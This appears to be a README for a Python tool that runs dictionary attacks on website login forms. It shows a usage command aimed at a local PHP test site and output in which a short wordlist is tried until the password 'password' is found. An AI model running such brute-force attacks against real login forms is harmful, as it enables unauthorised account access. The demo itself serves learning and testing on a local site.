 # Password Cracker
## Python script for dictionary attacks on websites login forms.

# Usage:
	## `cd website`
	## `php -S localhost:8000 &`
	## `cd cracker`
	## `python cracker.py "http://localhost:8000/" "passes.txt" "username" "submit" "username?password?submit" "Username or password is invalid"`
## Output:
	`
	Data correctly loaded!
	['superstronkpassword', 'toor', 'obsd', '12345678', 'password', '']
	Data correctly prepared!
	[('username', 'username', 'password', 'superstronkpassword', 'submit', 'submit'), ('username', 'username', 'password', 'toor', 'submit', 'submit'), ('username', 'username', 'password',
	'obsd', 'submit', 'submit'), ('username', 'username', 'password', '12345678', 'submit', 'submit'), ('username', 'username', 'password', 'password', 'submit', 'submit'), ('username', 'username', 'password', '', 'submit', 'submit')]
	[ 1/6 ] Sending  ('username', 'username', 'password', 'superstronkpassword', 'submit', 'submit') for http://localhost:8000/
	[ 2/6 ] Sending  ('username', 'username', 'password', 'toor', 'submit', 'submit') for http://localhost:8000/
	[ 3/6 ] Sending  ('username', 'username', 'password', 'obsd', 'submit', 'submit') for http://localhost:8000/
	[ 4/6 ] Sending  ('username', 'username', 'password', '12345678', 'submit', 'submit') for http://localhost:8000/
	[ 5/6 ] Sending  ('username', 'username', 'password', 'password', 'submit', 'submit') for http://localhost:8000/
	Password found!
	Login: username
	Password: password
	[ 6/6 ] Sending  ('username', 'username', 'password', '', 'submit', 'submit') for http://localhost:8000/
	`
